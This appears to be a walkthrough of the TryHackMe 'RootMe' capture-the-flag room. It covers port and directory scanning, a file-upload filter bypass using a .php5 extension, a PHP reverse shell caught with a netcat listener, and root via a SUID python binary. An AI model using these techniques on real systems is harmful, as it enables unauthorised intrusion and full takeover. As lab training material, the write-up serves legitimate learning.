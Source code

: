 ## RootMe Writeup
[Other THM Writeups](../../)

**Author** : [Ridful](../../../)

**THM** : [Ridful](https://tryhackme.com/p/Ridful)

**Twitter** : [Ridful5](https://twitter.com/Ridful5)

# [RootMe](https://tryhackme.com/room/rrootme)


## Task 1
~~*Deploy the Machine*~~

## Task 2
*Reconnaissance*

Do a portscan

sudo nmap -sS -sV -vv -T3 10.10.170.24
```
[...]
Scanning 10.10.170.24 [1000 ports]
Discovered open port 80/tcp on 10.10.170.24
Discovered open port 22/tcp on 10.10.170.24
[...]
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
[...]
```

Directory bruteforcer
```bash
gobuster dir --url http://10.10.170.24/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 60
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.170.24/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.170.24/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.170.24/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.170.24/panel/]
/server-status        (Status: 403) [Size: 277]
Progress: 207643 / 207644 (100.00%)
===============================================================
```
/uploads and /panel seem interesting

- Turns out /uploads is a directory listing for our uploaded files, it's empty for now.
- /panel is an upload form

## Task 3
*Getting a shell*

The upload form along with an apache server being present, could suggest a scenario of us being able to upload and run some php.

In Kali Linux, we've got a php reverse shell we could try: /usr/share/webshells/php/php-reverse-shell.php

cp /usr/share/webshells/php/php-reverse-shell.php ./php-reverse-shell.php

nano php-reverse-shell.php

edit $ip & $port to our IP and the Port we wish to listen on
```
$ip = '<self_ip_address>';
$port = 8888;
```

Open a Netcat listener (or other cat of choice)

nc -lvnp 8888
```
listening on [any] 8888 ...
```

I attempt uploading php-reverse-shell.php to 10.10.170.24/panel
> Upload form doesn't accept .php files.
> We'll want to try and bypass this restriction if possible

I found this good website for bypassing file uploads

https://book.hacktricks.xyz/pentesting-web/file-upload
They've got a bunch of things we can try

I figured one of the .php2, .php3, etc extensions would work, but for experimentation I tried adding symbols, nullbyte, .php.php, etc to see what would happen

Once I was satisfied with that effort, I went back to what I thought would work and uploaded (..., .php5):

Visit 10.10.170.24/uploads/php-reverse-shell.php5

The page is stuck loading, which is different from the other tries, and our netcat listener has picked something up, presumably our reverse shell has succeded!

```
connect to [xx.xx.xx.xxx] from (UNKNOWN) [10.10.170.24] 50602
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:06:29 up  3:47,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

id
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

hostname
```
rootme
```

find / -type f -name user.txt
```
/var/www/user.txt
```

cat /var/www/user.txt
```
THM{xxxxxxxxxxxxxxxx}
```

## Task 4
*Privilege escalation*

sudo -l   to see if we've got access to any sudo commands
> Nope

We should search for files with SUID permissions to see if there's anything we can make use of

find / -perm -u=s -type f 2>/dev/null
```bash
[...]
/usr/bin/chsh
**/usr/bin/python**
/usr/bin/at
[...]
```

ls -la /usr/bin/python
```
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python
```
Cool, let's check out the python gtfobin

https://gtfobins.github.io/gtfobins/python/

$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'

id
```
uid=0(root) gid=33(www-data) groups=33(www-data)
```

sudo -l
```
[...]
User root may run the following commands on rootme:
    (ALL : ALL) ALL
```

find / -type f -name root.txt
```bash
/root/root.txt
```

cat /root/root.txt
```bash
THM{xxxxxxxxxxxxxxxxx}
```

# Reflection

I enjoyed this Room, it was pretty straightforward for the most part, but still provided me with some things that I wish to improve upon.

I.e: Really hammering down on how to best go about the local enumeration for the Privesc.

I'm also thinking there's probably some better wordlists I could use for the Directory bruteforcing instead of the default Kali Linux ones.
I will take time to gain a better understanding of what other lists exist, how they compare, and how each one may serve me best. 

I will also take time to look at alternatives for gobuster, as I'm aware other similar programs exist.
